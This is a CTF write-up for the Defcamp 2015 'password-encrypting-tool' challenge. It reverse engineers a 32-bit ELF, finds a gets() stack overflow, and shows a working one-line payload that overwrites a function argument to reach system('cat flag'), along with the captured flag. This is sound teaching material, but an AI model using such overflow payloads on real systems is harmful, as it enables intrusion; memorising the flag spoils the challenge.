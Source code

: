 # Defcamp CTF Qualifications 2015: password-encrypting-tool-100

**Category:** Exploit
**Points:**100
**Solves:**
**Description:**

>Our second newest programmer created a tool so that we can encrypt our usual passwords and use more secure ones wherever we register new accounts. He said that he left some sort of an easter egg that could leverage you, but he doesn't really expect anyone to get it. You are the newest programmer, can you find it and prove him you are the one?

> Hack the target when you've figured out with this [file](e100).

>Target: dctf@10.13.37.6:22


## Write-up

This writeup is based on following writeups:

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>

We are given a stripped 32bit ELF for i386 Linux:

```bash
$ file e100
e100: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4410355efef2e99ac54e4028dba1b3e40d055fee, stripped
```

Running it, we can provide a password as input, which then is encrypted and returned:

```bash
$ ./e100
Enter password: hello
Your new secure password is: ?????
```

Lets open it in `radare2` and look at the functions available:

```bash
[0x08048400]> aa
[0x08048400]> afl | sort -k1 | column -t
0x08048390  16   2  sym.imp.printf
0x080483a0  16   2  sym.imp.gets
0x080483b0  16   2  sym.imp.__stack_chk_fail
0x080483c0  16   2  sym.imp.system
0x080483e0  16   2  sym.imp.strlen
0x080483f0  16   2  sym.imp.__libc_start_main
0x08048400  34   1  entry0
0x080484fd  167  9  fcn.080484fd
0x080485a4  28   1  main
```

Ok looks like we have some interesting imported functions that have been called: `system`, `gets` and `printf`.

Our binary itself consists of two functions: `fcn.080484fd` and `main`.

Decompiling `main`:

![](./main.png)

Decompiling `fcn.080484fd`:

![](./fcn-080484fd.png)

Main just does `fcn.080484fd(0xdadadada);`, while `fcn.080484fd` does following interesting things:

* If first argument of `fcn.080484fd` is `0xbadb0169`, it calls `system("cat flag");`
* Takes input and applies some simple `xor` encryption with some tweaks on it (see `0x08048546` to `0x08048574`). See [this writeup](https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md) for a complete source generated by Hopper.
* Calls `__stack_chk_fail()` if stack smashing has been detected

Since `gets` is called on our input, we assume that we are dealing with a simple Stack Overflow situation.

And indeed, we can smash the stack:

```bash
$ python -c 'print "A"*0x100' > in
gdb-peda$ r < in
[...]
Stopped reason: SIGSEGV
0xf7e43542 in getenv () from /lib32/libc.so.6
gdb-peda$ bt
#0  0xf7e43542 in getenv () from /lib32/libc.so.6
#1  0xf7e7918b in ?? () from /lib32/libc.so.6
#2  0xf7f0a3cb in __fortify_fail () from /lib32/libc.so.6
#3  0xf7f0a35a in __stack_chk_fail () from /lib32/libc.so.6
#4  0x0804859e in ?? ()
#5  0x41414141 in ?? ()
[...]
```

We cannot provide any shellcode to be executed, since `NX` is enabled and, adding to that, a stack smashing checking function is called right before `ret`.

Since the first argument to `fcn.080484fd` is hardcoded and always not equal to `0xbadb0169`, but `0xdadadada`, we have to smash the stack and set the value of the first argument to `0xbadb0169` to be able to execute `system("cat flag");`.

To do this, we have to find the correct offset, which can be calculated in a simple manner:

* Buffer for `gets` starts at `ebp-0x2c` (`ebp-local_3`)
* First argument for `fcn.080484fd` is at `ebp+0x8` (`ebp+arg_2`). On `ebp+0x4` we have our `EIP`/`rip`.
* Adding both together, we get `0x2c`+`0x8` = `0x34`.

Running our exploit:

```bash
$ python -c 'print "A"*0x34+"\x69\x01\xdb\xba"' | ./e100
DCTF{3671bacdb5ea5bc26982df7da6de196e}
*** stack smashing detected ***: ./e100 terminated
Enter password: Aborted (core dumped)
```

We can see the flag, `DCTF{3671bacdb5ea5bc26982df7da6de196e}`.

## Other write-ups and resources

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>
* [Japanese](http://ctf.publog.jp/archives/cat_1182010.html)
